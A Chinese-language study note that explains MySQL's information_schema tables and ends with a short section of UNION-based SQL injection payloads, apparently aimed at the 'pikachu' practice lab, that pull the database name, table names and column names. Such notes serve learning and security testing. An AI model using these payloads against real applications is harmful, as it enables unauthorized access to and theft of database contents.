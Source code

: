 # MySQL  information_schema

参考：

https://www.cnblogs.com/yachao1120/p/12058836.html

information_schema是一个描述MySQL中所有dbs，tables，columns，privileges等数据的一个数据库，及metadata

- **SCHEMATA**

  提供当前MySQL实例中所有数据库的信息，是show databases的结果取之此表

- **TABLES**

  提数据库中所有的表信息（包括视图）。详细表述了某个表属于哪个schema，表类型，表引擎，列数，创建时间等信息show tables from schemaname

- **COLUMNS**

  提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。是show columns from schemaname.tablename的结果取之此表。

- STATISTICS

  提供了关于表索引的信息。是show index from schemaname.tablename的结果取之此表。

- USER_PRIVILEGES

  给出了关于全程权限的信息。该信息源自mysql.user授权表。是非标准表。

- SCHEMA_PRIVILEGES

  给出了关于方案（数据库）权限的信息。该信息来自mysql.db授权表。是非标准表。

- TABLE_PRIVILEGES

  给出了关于表权限的信息。该信息源自mysql.tables_priv授权表。是非标准表。

- COLUMN_PRIVILEGES

  给出了关于列权限的信息。该信息源自mysql.columns_priv授权表。是非标准表。

- CHARACTER_SETS

  提供了mysql实例可用字符集的信息。是SHOW CHARACTER SET结果集取之此表。

- COLLATIONS

  提供了关于各字符集的对照信息。

- COLLATION_CHARACTER_SET_APPLICABILITY

  指明了可用于校对的字符集。这些列等效于SHOW COLLATION的前两个显示字段。

- TABLE_CONSTRAINTS

  描述了存在约束的表。以及表的约束类型。

- KEY_COLUMN_USAGE

  描述了具有约束的键列。

- ROUTINES

  提供了关于存储子程序（存储程序和函数）的信息。此时，ROUTINES表不包含自定义函数（UDF）。名为“mysql.proc name”的列指明了对应于INFORMATION_SCHEMA.ROUTINES表的mysql.proc表列。

- VIEWS

  给出了关于数据库中的视图的信息。需要有show views权限，否则无法查看视图信息。

- TRIGGERS

  提供了关于触发程序的信息。必须有super权限才能查看该表

## SQL payload

通过内置函数获取到数据库名

```mysql
' union select user(),database()#
```

获取对应数据库中的表名和行数

```sql
' union select table_name,table_rows from information_schema.tables where table_schema = 'pikachu' #
```

查询对应表名的列名

```sql
' union select table_name,column_name from information_schema.columns where table_name='users'#
```

然后可以同样通过union查询对应的值
